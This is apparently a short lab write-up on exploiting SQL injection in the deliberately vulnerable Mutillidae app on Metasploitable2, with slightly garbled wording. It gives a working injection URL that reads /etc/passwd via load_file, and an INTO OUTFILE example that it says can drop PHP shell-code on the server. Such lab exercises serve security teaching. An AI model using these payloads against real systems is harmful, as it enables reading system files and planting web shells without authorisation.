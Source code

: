http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%20null,load_file(%27/etc/passwd%27),null,null,null%23&password=&user-info-php-submit-button=View+Account+Details

![image](https://github.com/charu-dharshinii/sqlinjection/assets/130828943/31a12d6a-8499-4d6f-acc4-338a222ddffe)

the “INTO_OUTFILE()” operator for all that they offer and attempt to root the objective server by transferring a shell-code through SQL infusion. we will write a “Hello World!” sentence and output it in the “/tmp/” directory as a “hello.txt” file. This “Hello World!” sentence can be substituted with any PHP shell-code that you want to execute in the target server.
Ex: (union select null,’Hello World!’,null,null,null into outfile ‘/tmp/hello.txt’).



## RESULT:
The SQL Injection vulnerability is successfully exploited using the Multidae web application in Metasploitable2.

